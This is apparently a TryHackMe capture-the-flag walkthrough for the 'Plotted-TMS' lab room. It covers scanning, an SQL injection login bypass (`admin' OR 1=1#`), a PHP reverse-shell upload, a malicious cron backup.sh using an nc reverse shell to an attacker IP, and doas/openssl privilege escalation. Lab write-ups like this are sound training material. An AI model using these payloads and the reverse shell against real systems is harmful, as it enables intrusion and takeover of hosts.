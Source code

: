 # **Plotted-TMS**

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/6187c9220cd0ff0c5c3b29b9aa6252ea.png)
## **Difficulty = Easy**

***


running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Tue Nov  7 21:24:54 2023 as: nmap -p80,22,443 -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.10.250.150
Nmap scan report for 10.10.250.150
Host is up (0.15s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open   http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp closed https
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  7 21:25:12 2023 -- 1 IP address (1 host up) scanned in 18.60 seconds
```


Navigating to port `80/HTTP` we have


![](https://i.imgur.com/sc9fXeJ.png)


Viewing page source did not lead to anything so i decided to run dir/file bruteforce with `dirsearch`


![](https://i.imgur.com/QAKDphw.png)


Navigating to `/admin` we have this `id_rsa` file with the following content


![](https://i.imgur.com/YTmJwnd.png)


which in turn looks like **base64**, decrypting it gave us this 🤣

![](https://i.imgur.com/8u3qnn8.png)


Navigating to `/passwd` we have this **base64** encoded text


![](https://i.imgur.com/HSHQ2rQ.png)



Decrypting it gave us the following text also 🤣


![](https://i.imgur.com/iFnjPU9.png)


Looks like i made a typo, running `rustscan` again i have port `445/HTTP` open

![](https://i.imgur.com/ZCEo5xB.png)


Navigating to this port still gives us an Apache default webpage, but running dir/file bruteforce with `ffuf` we have

![](https://i.imgur.com/3bavh0x.png)


Navigating to `/management` we have


![](https://i.imgur.com/rrcu8kL.png)


Navigating to `/management/admin/login.php` we have the login endpoint


![](https://i.imgur.com/LJBxtC4.png)


I tried login in with **SQLI** and yeah it worked using the payload `admin' OR 1=1#`


![](https://i.imgur.com/2j8gqGD.png)


Navigating to `/management/admin/?page=user` we have a restricted file upload vulnerability whereas we can upload any files even if it is **.PHP, .TXT**, literally anything 🤣

![](https://i.imgur.com/ZQgjSB7.png)


We can go ahead and upload our reverse shell, I decided to guess the endpoints of where the file was going to and yeah it landed in `/management/uploads`

![](https://i.imgur.com/MrgLDvq.png)


Start up your listener and execute your reverse shell


![](https://i.imgur.com/dP3rvaD.png)



So we got shell as user **www-data**


![](https://i.imgur.com/GHYBQaW.png)


Navigating to `/var/www/html/445/management` and concatenating `initialize.php`, we have user **tms_user** MySQL logs

![](https://i.imgur.com/cmc7MDu.png)

Login in to MySQL and using enumerating this service i found two password hashes together with the one in `initialize.php` if you look closely

```bash
# login to mysql

$ mysql -u tms_user -p

# enumerate mysql

mysql> show databases;
mysql> use tms_db;
mysql> show tables
mysql> select * from users;
```


![](https://i.imgur.com/bg3iYcg.png)


We can go ahead and crack them with [crackstation.net](https://crackstation.net)



![](https://i.imgur.com/SKI3lGE.png)



Looks like the password found doesn't seem to work anywhere

![](https://i.imgur.com/9cdcEgn.png)


Navigating to `/var/www/scripts` we have permissions to write to this folder as user **www-data**, so i removed the `backup.sh` script

![](https://i.imgur.com/OAHEqHi.png)

Then added my own malicious `backup.sh` reverse shell, meanwhile the `backup.sh` is running as a cronjob with user `plot_admin`

```bash
$ nano backup.sh

# Add this to backup.sh and save
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.75.133 8888 >/tmp/f

$ chmod +x backup.sh
```


![](https://i.imgur.com/8XKmb1C.png)




Then we got shell as user **plot_admin**


![](https://i.imgur.com/8a5LmBT.png)



Checking `suid` we have this `doas` binary


```bash
find / -perm -4000 2>/dev/null
```


![](https://i.imgur.com/Wg6sTjW.png)


Concatenating the `doas` config file located under `/etc/doas.conf` we have this rule set


![](https://i.imgur.com/ptDGOnq.png)

> The `doas` command is just the same as when using the `sudo` command, in this case we have the following rule to allow the user “plot_admin” to run the “openssl” program as root without asking for any password.


Checking **gtfobins** we have the permission to read files with `openssl`



![](https://i.imgur.com/0M1Mcg4.png)




we can go ahead and use the `doas` command to read the root flag


![](https://i.imgur.com/VYQfNtg.png)

Have fun 🤸





